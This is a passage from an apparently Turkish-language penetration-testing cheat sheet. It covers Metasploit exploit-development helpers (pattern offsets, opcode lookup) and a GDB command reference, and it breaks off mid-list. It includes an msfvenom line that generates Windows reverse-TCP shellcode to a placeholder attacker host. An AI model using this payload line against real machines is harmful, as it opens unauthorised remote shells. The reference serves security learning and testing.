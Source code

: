 # Sızma Testi Araçları

<details><summary><strong>Sıfırdan kahraman olmaya kadar AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary></details>

## Metasploit
```bash
pattern_create.rb -l 3000   #Length
pattern_offset.rb -l 3000 -q 5f97d534   #Search offset
nasm_shell.rb
nasm> jmp esp   #Get opcodes
msfelfscan -j esi /opt/fusion/bin/level01
```
### Shellcode'lar

{% code overflow="wrap" %}
```bash
msfvenom /p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> [EXITFUNC=thread] [-e x86/shikata_ga_nai] -b "\x00\x0a\x0d" -f c
```
{% endcode %}

## GDB

### Kurulum
```bash
apt-get install gdb
```
### Parametreler
```bash
-q # No show banner
-x <file> # Auto-execute GDB instructions from here
-p <pid> # Attach to process
```
### Talimatlar
```bash
run # Execute
start # Start and break in main
n/next/ni # Execute next instruction (no inside)
s/step/si # Execute next instruction
c/continue # Continue until next breakpoint
p system # Find the address of the system function
set $eip = 0x12345678 # Change value of $eip
help # Get help
quit # exit

# Disassemble
disassemble main # Disassemble the function called main
disassemble 0x12345678 # Disassemble taht address
set disassembly-flavor intel # Use intel syntax
set follow-fork-mode child/parent # Follow child/parent process

# Breakpoints
br func # Add breakpoint to function
br *func+23
br *0x12345678
del <NUM> # Delete that number of breakpoint
watch EXPRESSION # Break if the value changes

# info
```